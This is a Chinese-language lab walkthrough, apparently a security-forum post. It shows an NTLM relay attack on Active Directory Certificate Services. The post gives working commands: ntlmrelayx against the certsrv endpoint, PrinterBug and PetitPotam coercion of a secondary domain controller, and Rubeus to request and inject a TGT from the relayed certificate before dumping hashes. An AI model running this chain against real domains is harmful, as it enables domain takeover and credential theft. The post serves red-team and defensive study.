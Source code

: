 前言
==

当AD安装证书服务后，存在一个HTTP端点：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6104dbb38ec7d76ce3743fbfa309b29420c35e86.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6104dbb38ec7d76ce3743fbfa309b29420c35e86.png)

攻击者可以利用NTLM Over HTTP来进行ntlmrelay攻击。

详细的介绍可以参考：<https://posts.specterops.io/certified-pre-owned-d95910965cd2>

环境介绍
====

攻击机器：192.168.8.164

AD域控（SRV-DC）：192.168.8.144

AD辅域（SRV-DC2）：192.168.8.155

攻击流程
====

默认普通用户普通权限：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eafbac3ea09d52fa9c56f6d03571481b63ba6242.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-eafbac3ea09d52fa9c56f6d03571481b63ba6242.png)

使用impacket，更新下这里的pull：  
` https://github.com/SecureAuthCorp/impacket/pull/1101 `

攻击机器开启监听：

```php
ntlmrelayx.py -t http://192.168.8.144/certsrv/certfnsh.asp -smb2support --adcs --template 'domain controller'
```

注意，这里的template参数值得做好适配。

利用打印机服务，使辅域进行强连回来：

```php
python printerbug.py domain.org/user:password@192.168.8.155 192.168.8.164
```

ntlmrelayx成功进行relay，并获取到证书信息：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0c07bc077bcf59c64ee3a507ea92ee806ffba400.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-0c07bc077bcf59c64ee3a507ea92ee806ffba400.png)

利用证书获取tgt并注入：

```php
Rubeus.exe asktgt /user:SRV-DC2$ /certificate:certificatebase64body /ptt
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-96bb6ec911ea9b6bdfa6872ffc0334e4c2d05df5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-96bb6ec911ea9b6bdfa6872ffc0334e4c2d05df5.png)

成功dump hash：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b100e897306bad8e2139d81359136eba549c3e75.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b100e897306bad8e2139d81359136eba549c3e75.png)

通过新出来的EFSRPC协议强连也可以做到同样的效果：

```php
python Petitpotam.py -u user -p password -d domain.org 192.168.8.164 192.168.8.155
```

总结
==

上述攻击流程中，除了我标粗的需要注意以外，还需要注意不能relay给自身、子域没权限也不能relay。（感谢daiker）

利用类似打印机服务手法进行ntlmrelay攻击时，除了上述提到的攻击AD CS，还有非约束委派、 CVE-2019-1040的基于资源的约束委派等攻击手法。